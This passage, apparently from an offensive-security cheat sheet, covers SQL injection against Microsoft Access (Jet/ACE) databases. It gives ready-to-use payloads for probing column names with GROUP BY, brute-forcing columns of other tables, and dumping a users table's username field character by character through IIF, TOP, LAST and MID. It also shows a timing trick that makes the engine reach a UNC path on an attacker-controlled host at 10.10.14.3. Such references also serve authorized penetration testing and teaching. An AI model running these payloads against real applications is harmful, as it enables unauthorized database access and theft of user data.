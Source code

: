 Or with a **group by**:

```sql
-1' GROUP BY column_name%00
```

Or you can brute-force column names of a **different table** with:

```sql
'=(SELECT TOP 1 column_name FROM valid_table_name)='

-1' AND (SELECT TOP 1 column_name FROM valid_table_name)%00
```

### Dumping data

We have already discussed the [**chaining equals technique**](ms-access-sql-injection.md#chaining-equals-+-substring) **to dump data from the current and other tables**. But there are other ways:

```sql
IIF((select mid(last(username),1,1) from (select top 10 username from users))='a',0,'ko')
```

In a nutshell, the query uses an “if-then” statement in order to trigger a “200 OK” in case of success or a “500 Internal Error” otherwise. Taking advantage of the TOP 10 operator, it is possible to select the first ten results. The subsequent usage of LAST allows to consider the 10th tuple only. On such value, using the MID operator, it is possible to perform a simple character comparison. Properly changing the index of MID and TOP, we can dump the content of the “username” field for all rows.

### Time-Based (Blind) Tricks

Jet/ACE SQL itself does **not** expose a native `SLEEP()` or `WAITFOR` function, so traditional time-based blind injections are limited. However, you can still introduce a measurable delay by forcing the engine to access a **network resource that is slow or does not answer**. Because the engine will try to open the file before returning the result, the HTTP response time reflects the round-trip latency to the attacker-controlled host.

```sql
' UNION SELECT 1 FROM SomeTable IN '\\10.10.14.3\doesnotexist\dummy.mdb'--
```

Point the UNC path to:

* a SMB share behind a high-latency link
* a host that drops the TCP handshake after `SYN-ACK`
* a firewall sinkhole

The extra seconds introduced by the remote lookup can be used as an **out-of-band timing oracle** for boolean conditions (e.g. pick a slow path only when the injected predicate is true). Microsoft documents the remote database behaviour and the associated registry kill-switch in KB5002984. 

### Other Interesting functions

- `Mid('admin',1,1)` get substring from position 1 length 1 (initial position is 1)
- `LEN('1234')` get length of string
- `ASC('A')` get ascii value of char
- `CHR(65)` get string from ascii value
- `IIF(1=1,'a','b')` if then
- `COUNT(*)` Count number of items
